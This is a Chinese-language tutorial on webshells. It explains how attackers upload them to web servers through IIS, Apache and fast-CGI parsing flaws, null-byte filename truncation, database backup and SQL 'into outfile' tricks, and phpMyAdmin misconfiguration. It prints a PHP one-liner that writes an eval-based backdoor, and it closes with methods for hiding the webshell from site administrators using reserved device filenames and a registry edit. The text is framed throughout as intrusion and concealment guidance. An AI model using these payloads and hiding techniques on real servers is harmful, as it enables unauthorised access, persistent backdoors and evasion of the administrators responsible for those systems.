 Webshell

1.webshell简介

webshell，顾名思义：web指的是在web服务器上，而shell是用脚本语言编写的脚本程序，webshell就是就是web的一个管理工具，可以对web服务器进行操作的权限，也叫webadmin。webshell一般是被网站管理员用于网站管理、服务器管理等等一些用途，但是由于webshell的功能比较强大，可以上传下载文件，查看数据库，甚至可以调用一些服务器上系统的相关命令（比如创建用户，修改删除文件之类的），通常被黑客利用，黑客通过一些上传方式，将自己编写的webshell上传到web服务器的页面的目录下，然后通过页面访问的形式进行入侵，或者通过插入一句话连接本地的一些相关工具直接对服务器进行入侵操作。


2.如何上传webshell

<1>.解析漏洞上传
现在对于不同的web服务器系统对应的有不同的web服务端程序，windows端主流的有iis，linux端主流的有nginx。这些服务对搭建web服务器提供了很大的帮助，同样也对服务器带来隐患，这些服务器上都存在一些漏洞，很容易被黑客利用。

(1)iis目录解析漏洞
比如：/xx.asp/xx.jpg
虽然上传的是JPG文件，但是如果该文件在xx.asp文件夹下，那个iis会把这个图片文件当成xx.asp解析，这个漏洞存在于iis5.x/6.0版本。

(2)文件解析漏洞
比如：xx.asp;.jpg。在网页上传的时候识别的是jpg文件，但是上传之后iis不会解析;之后的字符，同样会把该文件解析成asp文件，这个漏洞存在于iis5.x/6.0版本。

(3)文件名解析
比如：xx.cer/xx.cdx/xx.asa。在iis6.0下，cer文件，cdx文件，asa文件都会被当成可执行文件，里面的asp代码也同样会执行。（其中asa文件是asp特有的配置文件，cer为证书文件）。

(4)fast-CGI解析漏洞
在web服务器开启fast-CGI的时候，上传图片xx.jpg。内容为：
 		<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[shell])?>');?>

这里使用的fput创建一个shell.php文件，并写入一句话。访问路径xx.jpg/.php，就会在该路径下生成一个一句话木马shell.php。这个漏洞在IIS 7.0/7.5，Nginx 8.03以下版本存在。语言环境：PHP，prel，Bourne Shell，C等语言。

*注：fast-CGI是CGI的升级版，CGI指的是在服务器上提供人机交互的接口，fast-CGI是一种常驻型的CGI。因为CGI每次执行时候，都需要用fork启用一个进程，但是fast-CGI属于激活后就一直执行，不需要每次请求都fork一个进程。比普通的CGI占的内存少。

(5)apache解析漏洞
apache解析的方式是从右向左解析，如果不能解析成功，就会想左移动一个，但是后台上传通常是看上传文件的最右的一个后缀，所以根据这个，可以将马命名为xx.php.rar，因为apache解析不了rar，所以将其解析为php，但是后台上传点就将其解析为rar，这样就绕过了上传文件后缀限制

<2>.截断上传

在上传图片的时候，比如命名1.asp .jpg(asp后面有个空格)，在上传的时候，用NC或者burpsuite抓到表单，将上传名asp后面加上%00（在burpsuite里面可以直接编辑HEX值，空格的HEX值为20，将20改为00），如果HEX为00的时候表示截断，20表示空格，如果表示截断的时候就为无视脚本中的JPG验证语句，直接上传ASP。

<3>.后台数据库备份

在一些企业的后台管理系统中，里面有一项功能是备份数据库（比如南方cms里面就有备份数据库的功能）。可以上传一张图片，图片里面含有一句话木马，或者将大马改成jpg格式，然后用数据库备份功能，将这张图片备份为asp等其他内容可以被解析为脚本语句的格式，然后再通过web访问就可以执行木马了，但是这种方法很老了，现在大多数的cms已经把这种备份的功能取消了，或者禁用了。

<4>.利用数据库语句上传

(1) mysql数据库into outfile
这种方式的前提必须是该网站有相应的注入点，而且当前用户必须要有上传的权限，而且必须有当前网页在服务器下的绝对路径。方法是用联合查询，将一句话木马导入到网站下边的一个php文件中去，然后使用服务端连接该网站。但是上述方法条件过于苛刻，一般遇到的情况很少。

(2)建立新表写入木马
一些开源cms或者自制的webshell会有数据库管理功能，在数据库管理功能里面有sql查询功能，先使用create table shell(codetext);创建一个名字叫做shell的表，表里面有列明叫做code，类型为text。然后使用insert into shell(code) values(‘一句话马’)，这里讲shell表中的code列赋值为一句话的马，然后通过自定义备份，将该表备份为x.php;x然后就被解析成为php然后执行了，这里不是x.php;x就一定能够解析为php，不同的web服务器上面的服务程序不同，然后过滤规则也不同，可能会使用其他的方式。

(3)phpMyadmin设置错误
phpMyadmin用来管理网站数据库的一个工具，其中config.inc.php为其配置文件，在查看的该文件的时候，如果$cfg[‘Servers’][$i][‘auth_type’]参数的值设置没有设置（默认为config）说明在登陆数据库的时候没有做相应的验证，可以直接连入数据库，而且在Mysql在一些版本下面默认登陆都是以root用户进行登陆（即管理员），所以登陆进去为最大权限。但是root一般只能本地登陆，所以必须创建一个远程登陆用户。用远程登陆用户登陆之后，创建一个表，然后再将一句话木马写入。


3.关于webshell的隐藏

在上传webshell的时候必须要进行webshell的隐藏工作。隐藏webshell，第一个目的是不让网站管理员发现马将其删掉，第二个目的是为了不被其他的Hacker发现了这个文件并加以利用。

【不死僵尸】

windows系统存在系统保留文件名，windows不允许用这些名字来命名文件,因为这些名字都属于设备名称，等价于一个 DOS 设备，如果我们把文件命名为这些名字，Windows 就会误以为发生重名，所以会提示“不能创建同名的文件”等等。aux|prn|con|nul|com1|com2|com3|com4|com5|com6|com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt。但是这些可以使用windows的copy命令创建与del删除,我们只要按照完整的 UNC 路径格式，就是网上邻居的路径格式，正确输入文件路径及文件名即可。

copy 3.asp \\.\E:\aux.asp
Del \\.\E:\aux.asp

【注册表隐藏】

注册表路径：
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\explorer＼Advanced\Folder\Hidden\SHOWALL

在这个路径下有一个CheckedValue的键值，把他修改为0，如果没有CheckValue这个key直接创建一个，将他赋值为0，然后创建的隐藏文件就彻底隐藏了，即时在文件夹选项下把“显示所有文件”也不能显示了。
